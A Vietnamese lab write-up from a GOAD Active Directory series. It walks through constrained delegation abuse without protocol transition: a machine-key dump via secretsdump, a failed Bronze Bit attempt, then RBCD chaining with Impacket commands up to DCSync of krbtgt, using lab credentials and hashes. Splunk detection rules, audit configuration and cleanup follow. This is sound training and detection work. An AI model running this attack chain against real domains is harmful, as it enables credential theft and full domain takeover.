




# Case 4 — Constrained Delegation KHÔNG Protocol Transition → RBCD Chaining (T1550.003)

> Part 4 của series recap lab GOAD-Light + Splunk. Xem [Part 0 — Overview](00-overview-lab-setup.md), [Part 1 — Kerberoasting](01-case1-kerberoasting.md), [Part 2 — AS-REP Roasting](02-case2-asrep-roasting.md), [Part 3 — Constrained Delegation w/ Protocol Transition](03-case3-constrained-delegation.md).
>
> Bronze Bit ** một bản vá của Microsoft đã fix lổ hổng này**, => đổi hướng sang RBCD chaining. Phân biệt lỗi client vs lỗi server, cách research để xác minh giả thuyết, và **audit gap kép** khiến hành vi tấn công cốt lõi **vô hình** nếu không cấu hình đúng.

## Bối cảnh

Tiếp nối [Case 3](03-case3-constrained-delegation.md): khi chạy `findDelegation.py`, output trả về **nhiều dòng** delegation. Case 3 đã khai thác dòng của `jon.snow` (*Constrained **w/** Protocol Transition*). Case 4 nhắm dòng còn lại — một **computer account** `CASTELBLACK$` với loại *Constrained **w/o** Protocol Transition* tới `HTTP/winterfell`.

Coi đây là một **đường leo thang độc lập**: giả sử ta chưa có golden path của `jon.snow`, chỉ đang nhìn vào delegation của con member server này — nó cho ta đi tới đâu?

## Bước 1 — Recon: khoanh vùng mục tiêu

```
findDelegation.py -dc-ip 192.168.56.11 north.sevenkingdoms.local/jon.snow:iknownothing
```

```
AccountName   AccountType  DelegationType                       DelegationRightsTo                         SPN Exists
------------  -----------  -----------------------------------  -----------------------------------------  ----------
jon.snow      Person       Constrained w/ Protocol Transition   CIFS/winterfell                            No
jon.snow      Person       Constrained w/ Protocol Transition   CIFS/winterfell.north.sevenkingdoms.local  Yes
CASTELBLACK$  Computer     Constrained w/o Protocol Transition  HTTP/winterfell                            No
CASTELBLACK$  Computer     Constrained w/o Protocol Transition  HTTP/winterfell.north.sevenkingdoms.local  Yes
WINTERFELL$   Computer     Unconstrained                        N/A                                        Yes
```



- `WINTERFELL$` *Unconstrained* — bỏ qua (muốn khai thác phải kiểm soát được chính DC02, vô nghĩa).
- `CASTELBLACK$` (dấu `$` = **computer account**) delegate tới `HTTP/winterfell`, loại **KHÔNG** protocol transition → mục tiêu Case 4.

## Bước 2 — Hiểu bản chất: "có" vs "không" protocol transition

Constrained delegation dựa trên 2 mở rộng Kerberos:
- **S4U2Self** — service tự xin KDC một vé "gửi tới chính nó", *nhân danh* một user bất kỳ, mà user đó không cần có mặt.
- **S4U2Proxy** — service cầm một vé **forwardable** rồi xin vé mới tới service backend trong `msDS-AllowedToDelegateTo`, vẫn nhân danh user đó.

Luật sắt: **S4U2Proxy chỉ nhận vé forwardable.** Cờ `TrustedToAuthForDelegation` ("protocol transition") quyết định vé mà S4U2Self trả về **có forwardable hay không**:

| | S4U2Self trả về | Nhét vào S4U2Proxy | Hệ quả |
|---|---|---|---|
| **CÓ** protocol transition (jon.snow — Case 3) | vé **forwardable** | ✅ được ngay | Chỉ cần mật khẩu user → giả danh bất kỳ ai |
| **KHÔNG** protocol transition (CASTELBLACK$ — Case 4) | vé **non-forwardable** | ❌ bị chặn | *Về lý thuyết* chỉ delegate được cho user đã thật sự xác thực tới nó |

Điểm khác biệt cốt lõi về **nguyên liệu cần có**:

| | Cần cầm trong tay | Lấy bằng cách nào |
|---|---|---|
| Case 3 (có PT) | mật khẩu của **1 user thường** | crack hash Kerberoasting |
| Case 4 (không PT) | **khoá của chính computer account** `CASTELBLACK$` | **không** crack được — phải chiếm máy rồi dump |

**Mật khẩu computer account không đoán được:** khi máy join domain, nó **tự sinh ngẫu nhiên** mật khẩu ~120 ký tự UTF-16, tự đổi mỗi 30 ngày. Không wordlist nào chứa nổi. Con đường **duy nhất** để có khoá `CASTELBLACK$` là **đọc nó ở nơi lưu** (LSA Secrets của chính castelblack) → cần **local admin trên castelblack**.

> **Phạm vi (assume-breach):** "làm sao có local admin trên castelblack" là một kỹ thuật RIÊNG (web shell IIS / MSSQL privesc — để dành case khác). Ở Case 4 ta **nhận foothold này như tiền đề**: dùng `jeor.mormont` (`_L0ngCl@w_`) — tài khoản được GOAD cấu hình làm local admin duy nhất của castelblack — để lấy khoá máy. Toàn bộ trọng tâm Case 4 là **phần abuse delegation**, không phải cách vào máy.

## Bước 3 — Foothold: dump khoá máy `CASTELBLACK$`

Xác nhận `jeor.mormont` đúng là local admin trên castelblack (không tin lời, tự kiểm chứng):

```
nxc smb 192.168.56.22 -u jeor.mormont -p '_L0ngCl@w_' -d north.sevenkingdoms.local
```
```
SMB  192.168.56.22  445  CASTELBLACK  [+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_ (Pwn3d!)
```

`(Pwn3d!)` = có local admin → dump LSA Secrets:

```
secretsdump.py 'north.sevenkingdoms.local/jeor.mormont:_L0ngCl@w_@192.168.56.22'
```

Trích phần quan trọng:
```
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:2757da8f2e23457f8f6e04c6cf293fb7c0cf33f44a43be54699a641772e05932
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:4bb79f7bcba3b0a8ece5d3d785094fa0:::
NORTH\CASTELBLACK$:plain_password_hex:500070003300...      <-- ~60 ký tự random, không đoán nổi
...
[*] _SC_MSSQL$SQLEXPRESS
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee   <-- QUÀ TẶNG KÈM
```

Hai chiến lợi phẩm:
1. **Khoá máy `CASTELBLACK$`** — NT hash `4bb79f7bcba3b0a8ece5d3d785094fa0` + AES256 `2757da8f...e05932`.
2. **Quà kèm:** LSA lưu mật khẩu service account dạng **cleartext** → nhặt luôn `sql_svc:YouWillNotKerboroast1ngMeeeeee` (chính account phải *crack* ở Case 1, giờ hiện trần trụi). Bài học SOC: chiếm 1 máy ở mức LSA = nhặt plaintext mọi service account chạy trên đó.

## Bước 4 — Ngõ cụt: Bronze Bit đâm vào bản vá

Đường kinh điển cho "không protocol transition khi đã có khoá máy" là **force-forwardable** của Impacket — tức tấn công **Bronze Bit (CVE-2020-17049)**: giải mã vé S4U2Self, **lật cờ `forwardable` từ 0 → 1**, mã hoá lại bằng khoá máy đang cầm, rồi nhét vào S4U2Proxy.

```
getST.py -spn HTTP/winterfell -impersonate eddard.stark \
  -aesKey 2757da8f...e05932 -force-forwardable \
  north.sevenkingdoms.local/'castelblack$' -dc-ip 192.168.56.11
```
```
[*] Getting TGT for user
[*] Impersonating eddard.stark
[*] Requesting S4U2self
[*]     Forcing the service ticket to be forwardable
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)
```

Nghẽn ở S4U2Proxy. Quá trình loại trừ giả thuyết (theo đúng thứ tự đã thử):

| # | Giả thuyết | Kiểm chứng | Kết quả |
|---|---|---|---|
| 1 | Lệch key type → thử RC4 (`-hashes`) | 0.13.1 | ❌ Crash `NoneType has no len()` — nhánh RC4 buggy |
| 2 | Sai khoá máy | TGT có lấy được không? | ❌ TGT **thành công** → khoá AES **đúng & còn hạn** |
| 3 | Thiếu force-forwardable | Bỏ cờ ra chạy | ✅ Ra `KDC_ERR_BADOPTION` "initial TGT not forwardable" — đúng bản chất không-PT |
| 4 | Bug Impacket 0.13.1 | Dựng venv, hạ 0.12.0 chạy lại | ❌ **Cùng lỗi** `KRB_AP_ERR_MODIFIED` → không phải version |



**Bài học đọc lỗi :**
- RC4 → `NoneType has no len()` = **lỗi Python phía CLIENT** (tool tự vỡ, chưa gửi gì tới DC). `-force-forwardable` bắt buộc AES.
- AES → `KRB_AP_ERR_MODIFIED` = **lỗi Kerberos do chính KDC gửi về** — DC đã nhận vé bị-lật-cờ và **chủ động từ chối**.

Vì khoá đã chứng minh đúng (TGT chạy) và cả 2 bản Impacket cho cùng lỗi, kết luận: **DC `winterfell` đã được vá CVE-2020-17049**. Bản vá thêm **`PAC_TICKET_SIGNATURE` (PAC buffer type 0x10/16)** — một chữ ký (HMAC) do KDC tạo bằng khoá `krbtgt`, phủ lên toàn bộ enc-part của vé. Ta lật cờ → chữ ký gãy → không thể ký lại (không có khoá `krbtgt`) → KDC báo "message stream modified".

### Xác minh bằng research trước khi chốt

Đưa toàn bộ context cho 2 công cụ research độc lập (Perplexity + Gemini). Cả hai hội tụ:
- Man page Impacket ghi thẳng `-force-forwardable` *"may not work on patched domain controllers"*; Swissky liệt kê chính `KRB_AP_ERR_MODIFIED` là "Patched Error Message" của Bronze Bit. → **Chẩn đoán "DC đã vá" đúng.**
- Nhưng Gemini phản biện một điểm đã kết luận sai: *"force-forwardable chết" ≠ "hướng này chết"*. Con đường **đúng ý đồ GOAD** là **RBCD chaining**, trích blog tác giả (mayfly277, GOADv2 part10):
  > *"…the s4uself will send us a not forwardable TGS and the attack will fail. So to exploit and get the forwardable TGS we need, we first need to add a computer and use RBCD between the created computer (rbcd_const$) and the computer who have delegation set (here castelblack$)."*

=> GOAD **cố ý dùng Server 2019 đã vá** để chặn Bronze Bit, ép đi đường RBCD chaining.

## Bước 5 —RBCD chaining 

**Ý tưởng vượt patch:** không lật cờ nữa, mà **lấy một vé forwardable HỢP LỆ do chính KDC ký**, nhờ một bất đối xứng nổi tiếng (Elad Shamir — *Wagging the Dog*): **RBCD ngầm cấp "protocol transition"** — S4U qua đường RBCD trả về vé **forwardable thật**, kể cả khi evidence ban đầu non-forwardable.

**① Điều kiện tiên quyết — domain có cho user thường tạo computer không?**
```
ldapsearch -x -H ldap://192.168.56.11 -D "jon.snow@north.sevenkingdoms.local" -w iknownothing \
  -b "DC=north,DC=sevenkingdoms,DC=local" -s base ms-DS-MachineAccountQuota
```
→ `ms-DS-MachineAccountQuota: 10` (mặc định, ít ai siết về 0) → mỗi user tạo được 10 máy.

**② Tạo computer account ta kiểm soát:**
```
addcomputer.py -computer-name 'rbcdconst$' -computer-pass 'Rbcd2026Pass!' \
  -dc-ip 192.168.56.11 north.sevenkingdoms.local/jon.snow:iknownothing
```

**③ Set RBCD trên `castelblack$` trỏ về `rbcdconst$`** (dùng chính khoá máy `castelblack$` — và ta xác nhận được điều thú vị: computer account **tự ghi được** thuộc tính RBCD của chính nó):
```
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcdconst$' -action write \
  -dc-ip 192.168.56.11 -hashes :4bb79f7bcba3b0a8ece5d3d785094fa0 'north.sevenkingdoms.local/castelblack$'
```
```
[*] Delegation rights modified successfully!
[*] rbcdconst$ can now impersonate users on castelblack$ via S4U2Proxy
```

**④ Dùng `rbcdconst$` chạy S4U qua RBCD → lấy vé forwardable hợp lệ** (cho `eddard.stark`, một Domain Admin — chọn nó vì không dính Protected Users):
```
getST.py -spn 'cifs/castelblack' -impersonate eddard.stark \
  'north.sevenkingdoms.local/rbcdconst$:Rbcd2026Pass!' -dc-ip 192.168.56.11
```
Kiểm chứng vé đúng là forwardable (thứ Bronze Bit không tạo nổi):
```
describeTicket.py eddard.stark@cifs_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache | grep -i flags
[*] Flags : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
```

**⑤ Đưa vé forwardable làm `-additional-ticket` cho constrained delegation của `castelblack$` → `HTTP/winterfell`:**
```
getST.py -spn 'HTTP/winterfell' -impersonate eddard.stark \
  -additional-ticket 'eddard.stark@cifs_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' \
  -aesKey 2757da8f...e05932 \
  'north.sevenkingdoms.local/castelblack$' -dc-ip 192.168.56.11
```
```
[*]     Using additional ticket eddard.stark@cifs_castelblack... instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in eddard.stark@HTTP_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

**Không** `KRB_AP_ERR_MODIFIED` — vì không lật cờ gì cả. Toàn chuỗi:
```
jon.snow (quota=10) ─► tạo rbcdconst$
castelblack$ (khoá đã dump) ─► tự set RBCD trỏ về rbcdconst$
rbcdconst$ ─► S4U qua RBCD ─► vé FORWARDABLE hợp lệ (eddard.stark ► castelblack$)
castelblack$ + vé đó (-additional-ticket) ─► S4U2Proxy ─► HTTP/winterfell as eddard.stark ✅
```

## Bước 6 — Chứng minh impact: DCSync

Vé đang là `HTTP/` (dành cho WinRM). Đổi service-class sang `CIFS/` (mọi SPN của winterfell mã hoá bằng cùng khoá `WINTERFELL$` → hợp lệ), rồi DCSync:

```
getST.py -spn 'HTTP/winterfell' -altservice 'CIFS/winterfell' -impersonate eddard.stark \
  -additional-ticket 'eddard.stark@cifs_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' \
  -aesKey 2757da8f...e05932 'north.sevenkingdoms.local/castelblack$' -dc-ip 192.168.56.11

export KRB5CCNAME=eddard.stark@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
secretsdump.py -k -no-pass 'north.sevenkingdoms.local/eddard.stark@winterfell' -just-dc-user 'north/krbtgt'
```
```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c167d66d9df1b5c67eb418418218e97e:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:b017069a048c74abafbace09a3d3a072c025b967e439b90eb9b23e29bed85028
```

Lấy được hash **`krbtgt`** của `north.sevenkingdoms.local` = mức compromise cao nhất (chế Golden Ticket, giả danh vĩnh viễn) — đạt qua đúng chuỗi RBCD chaining, **vượt bản vá Bronze Bit**.

> *(Lưu ý: lần đầu chạy `-just-dc-user krbtgt` báo `ERROR_DS_NAME_ERROR_NOT_UNIQUE` vì tên `krbtgt` tồn tại ở cả 2 domain trong forest — phải chỉ rõ NetBIOS domain: `north/krbtgt`.)*

## Bước 7 — Phát hiện trong Splunk

Chạy lại toàn bộ tấn công sinh ra footprint trên DC:

```spl
index=* sourcetype=WinEventLog:Security EventCode IN (4741,4742,4768,4769,4662) earliest=-3h
| stats count min(_time) as first max(_time) as last by EventCode host
```



Case 4 có bộ dấu vết **giàu hơn Case 3**. Ba rule bổ sung cho nhau:

### Rule A — Computer account tạo bởi user thường (EventCode 4741)

```spl
index=* sourcetype=WinEventLog:Security EventCode=4741
| rex "New Computer Account:\s+Security ID:\s+\S+\s+Account Name:\s+(?<new_computer>\S+)"
| rex "Subject:\s+Security ID:\s+\S+\s+Account Name:\s+(?<creator>\S+)"
| search creator!="*$"
| table _time host creator new_computer
```
`rex` trích **người tạo** và **máy mới**; `creator!="*$"` loại máy-tạo-máy hợp lệ, chỉ giữ **user đứng ra tạo computer** — hành vi tiền đề của RBCD chaining, gần như không bao giờ hợp lệ.



### Rule C — Nỗ lực Bronze Bit (EventCode 4769, Failure Code 0x29)

Đòn force-forwardable *thất bại* vẫn để lại dấu. Soi phân bố failure code:
```
0x0  : 1158   ← vé cấp thành công
0x20 : 3      ← KRB_AP_ERR_TKT_EXPIRED (vô hại)
0x29 : 2      ← KRB_AP_ERR_MODIFIED = 2 nỗ lực Bronze Bit
```
Đúng **2** (không phải 4) vì 2 lần RC4 crash client-side chưa chạm tới DC — con số này *chứng minh lại* bài học "lỗi client vs lỗi server".

```spl
index=* sourcetype=WinEventLog:Security EventCode=4769
| rex "Failure Code:\s+(?<failure_code>0x[0-9A-Fa-f]+)"
| search failure_code=0x29
| table _time host Account_Name Service_Name Client_Address
```
Kết quả: `castelblack$` (computer account) xin vé tới `HTTP/winterfell` (service của DC) từ IP lạ `192.168.56.50`, `0x29`. Mã `0x29` gần như **không bao giờ** xuất hiện tự nhiên → fidelity rất cao. Lưu ý tương phản với Case 3: **thành công → `Transited Services` có dữ liệu; Bronze Bit fail → `Transited Services` rỗng + `0x29`**.

### Rule B — RBCD grant (EventCode 5136) + bài học AUDIT GAP KÉP

Đây là rule giá trị nhất — bắt đúng **hành vi cốt lõi**: thuộc tính `msDS-AllowedToActOnBehalfOfOtherIdentity` bị ghi. Nhưng để bắt được nó cần vượt **một audit gap kép**:

1. **Event 4742** ("A computer account was changed") có fire khi set RBCD, nhưng mục `Changed Attributes` **toàn `-`** — dòng `AllowedToDelegateTo` ở đó là của `msDS-AllowedToDelegateTo` (delegation cổ điển), **KHÁC** RBCD. Tức 4742 **giấu mất** thuộc tính nguy hiểm.
2. **Event 5136** ("Directory Service object modified") ghi được attribute, nhưng cần **HAI lớp**: (a) bật subcategory `auditpol /set /subcategory:"Directory Service Changes" /success:enable`, **và** (b) một **SACL audit "Write"** trên object — mặc định computer object **không có**. Chỉ bật (a) → DC vẫn im lặng.

Sau khi thêm cả 2 lớp và tái tạo thao tác, 5136 mới hiện ra:
```
EventCode=5136
Subject → Account Name: CASTELBLACK$        <- computer TỰ sửa RBCD của chính nó
Object  → DN: CN=CASTELBLACK,CN=Computers,DC=north,DC=sevenkingdoms,DC=local
Attribute → LDAP Display Name: msDS-AllowedToActOnBehalfOfOtherIdentity
Value → Malformed Security Descriptor        <- Windows không render nổi SD nhị phân (không phải lỗi)
Operation → Type: Value Added
```

```spl
index=* sourcetype=WinEventLog:Security EventCode=5136 "msDS-AllowedToActOnBehalfOfOtherIdentity"
| rex "Subject:[\s\S]*?Account Name:\s+(?<who>\S+)"
| rex "DN:\s+(?<target_object>\S+)"
| rex "Type:\s+(?<operation>Value (?:Added|Deleted))"
| table _time host who target_object operation
```

Thuộc tính này gần như không bao giờ bị sửa hợp lệ → chỉ cần xuất hiện trong 5136 là đáng cảnh báo cao.

**Lệnh bật lớp audit (chạy trên DC `winterfell`):**
```powershell
# Lớp 1 — subcategory
auditpol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable

# Lớp 2 — SACL audit Write (kế thừa xuống mọi object con)
Import-Module ActiveDirectory
$path = "AD:\DC=north,DC=sevenkingdoms,DC=local"
$acl  = Get-Acl -Path $path -Audit
$everyone = New-Object System.Security.Principal.SecurityIdentifier("S-1-1-0")
$rule = New-Object System.DirectoryServices.ActiveDirectoryAuditRule($everyone,`
  [System.DirectoryServices.ActiveDirectoryRights]::WriteProperty,`
  [System.Security.AccessControl.AuditFlags]::Success,`
  [System.DirectoryServices.ActiveDirectorySecurityInheritance]::Descendents)
$acl.AddAuditRule($rule); Set-Acl -Path $path -AclObject $acl
```
> Trong production nên **scope SACL hẹp lại** (chỉ audit attribute `msDS-AllowedToActOnBehalfOfOtherIdentity`, hoặc chỉ OU chứa computer) để tránh 5136 nổ vì mọi thay đổi thuộc tính.

## Alert

Ba Alert đã lưu (Scheduled, Cron `*/5 * * * *`, Time Range Last 15 minutes, Trigger *Number of Results > 0*, *For each result*, Add to Triggered Alerts):

| Rule | Tên | EventCode | Severity |
|---|---|---|---|
| A | `Case4 - RBCD Abuse - Computer account created by a user` | 4741 | Medium |
| B | `Case4 - RBCD Abuse - msDS-AllowedToActOnBehalfOfOtherIdentity modified` | 5136 | High |
| C | `Case4 - Bronze Bit attempt - 4769 Failure 0x29` | 4769 | High |

Bộ 3 phủ cả 3 pha: **chuẩn bị** (A — tạo máy), **hành vi cốt lõi** (B — cấy RBCD), **nỗ lực đường cũ thất bại** (C — Bronze Bit). Ngoài ra rule `Transited Services` của [Case 3](03-case3-constrained-delegation.md) vẫn bắt được pha S4U2Proxy thành công của chuỗi này.

## Dọn lab (trả về nguyên trạng)

```bash
# 1) Gỡ RBCD trên castelblack$ (phần quan trọng nhất — xoá quyền delegate)
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcdconst$' -action flush \
  -dc-ip 192.168.56.11 -hashes :4bb79f7bcba3b0a8ece5d3d785094fa0 'north.sevenkingdoms.local/castelblack$'
```
```powershell
# 2) Xoá computer account đã tạo — chạy trên DC bằng quyền admin.
#    Lưu ý: user tạo máy qua quota (jon.snow) KHÔNG có quyền delete object đó,
#    nên `addcomputer.py -delete` bằng jon.snow sẽ fail — phải dùng account có quyền.
Remove-ADComputer -Identity rbcdconst -Confirm:$false
Get-ADComputer -Filter "Name -eq 'rbcdconst'"   # xác nhận không còn
```
> SACL audit rộng ở trên có thể **giữ lại** (Rule B cần nó) nhưng nên scope hẹp; nếu muốn revert hoàn toàn thì `RemoveAuditRule` tương ứng.

## Tóm tắt kỹ thuật

| Mục | Chi tiết |
|---|---|
| ATT&CK | [T1550.003](https://attack.mitre.org/techniques/T1550/003/) (S4U/RBCD abuse) |
| Điều kiện cần | **Khoá máy** của account có constrained delegation w/o protocol transition (⇒ local admin trên máy đó) + quyền tạo computer (`MachineAccountQuota > 0`) |
| Đường kinh điển bị chặn | **Bronze Bit (CVE-2020-17049)** — DC đã vá `PAC_TICKET_SIGNATURE` → `KRB_AP_ERR_MODIFIED` |
| Đường thay thế (intended) | **RBCD chaining** — mượn RBCD để lấy vé forwardable *hợp lệ*, không tamper |
| Impact tối đa | DCSync — hash `krbtgt`, full domain compromise |
| Chữ ký phát hiện | 4741 (computer tạo bởi user), **5136** (RBCD attribute — cần bật audit 2 lớp), 4769 Failure `0x29` (Bronze Bit attempt) |
| Bài học phụ | Phân biệt lỗi client (Python crash) vs lỗi server (KRB-ERROR từ KDC); audit gap kép của 5136; force-forwardable đòi AES |
